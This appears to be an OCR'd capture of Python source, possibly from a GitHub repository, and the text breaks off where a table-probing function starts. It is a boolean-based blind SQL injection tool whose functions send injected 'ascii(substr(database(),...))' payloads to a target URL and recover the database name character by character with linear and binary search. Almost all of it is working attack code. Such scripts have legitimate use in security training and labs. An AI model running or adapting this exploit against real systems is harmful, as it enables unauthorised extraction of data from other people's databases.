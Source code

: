 ```python
    print("Time: {} seconds".format(end_time - start_time))


def probe_database_linear():
    db_name = ''
    # params = {'id': "1' and ascii(substr(database(),1,1))=115 --+"}

    # all visible character is: 32( )->126(~)
    j = 1
    exit_flag = False
    while not exit_flag:
        # always assume we will exit in this loop
        exit_flag = True
        for i in range(32, 127):
            payload = f"1 and ascii(substr(database(),{j},{j}))={i} --+"
            r = requests.get(base_url + payload)
            if mark in r.text:
                db_name += chr(i)
                print('database:', db_name)
                exit_flag = False
                break
            pass
        j += 1
    return db_name


def probe_database_binary():
    db_name = ''
    # params = {'id': "1' and ascii(substr(database(),1,1))=115 --+"}

    # all visible character is: 32( )->126(~)
    j = 1
    exit_flag = False
    while not exit_flag:
        # always assume we will exit in this loop
        exit_flag = True
        low = 32
        high = 126
        while high >= low:
            mid = (low + high) // 2
            payload = f"1 and ascii(substr(database(),{j},{j}))={mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                db_name += chr(mid)
                print('database:', db_name)
                exit_flag = False
                break
            pass

            # another test for narrow down left or right range to search
            payload = f"1 and ascii(substr(database(),{j},{j}))>{mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                low = mid + 1
            else:
                high = mid - 1
            pass
        j += 1
    return db_name


def probe_table_binary(db_name):
    table_name = ''
```